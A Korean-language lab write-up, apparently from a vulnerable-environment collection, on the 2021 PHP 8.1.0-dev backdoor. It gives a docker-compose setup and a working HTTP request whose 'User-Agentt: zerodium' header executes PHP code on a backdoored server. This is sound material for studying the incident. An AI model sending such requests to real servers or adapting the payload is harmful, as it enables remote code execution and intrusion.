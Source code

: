 # PHP 8.1.0-dev User-Agentt 백도어 원격 코드 실행

## 개요

2021년 3월 28일, PHP 8.1.0-dev 버전에 백도어가 심어졌다. 이 백도어는 빠르게 발견되어 제거되었다. 백도어가 존재하는 서버에서는, 공격자가 `User-Agentt` 헤더를 이용하여 임의의 코드를 실행할 수 있다.

## 참고 자료

- [PHP Internals 메일링 리스트](https://news-web.php.net/php.internals/113838)
- [백도어 삽입 커밋](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)
- [백도어 제거 커밋](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)

## 취약한 환경 구성 방법

### docker-compose.yml파일 내용

```yaml
version: '3'
services:
  php:
    image: vulhub/php:8.1.0-dev-backdoor
    ports:
      - "8080:80"
```

백도어가 포함된 PHP 8.1-dev 서버를 구성하려면 아래 명령어를 실행한다.

```bash
docker compose up -d
```

![image.png](image.png)

환경이 시작되면, 서비스는 [http://localhost:8080](http://localhost:8080/)에서 접근할 수 있다.

![image.png](image1.png)

## 취약점 재현 방법

다음과 같은 HTTP 요청을 보내면 `var_dump(233*233);` 코드가 실행된다.

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close
```

여기서 핵심은 `User-Agentt`라는 오타가 포함된 헤더를 이용해 코드를 삽입하는 것이다. 해당 백도어가 존재하는 경우, 서버는 이 값을 받아 그대로 실행하게 된다.

![image.png](image2.png)

233*233의 연산을 실행해서 반환하는 것을 알 수 있다.
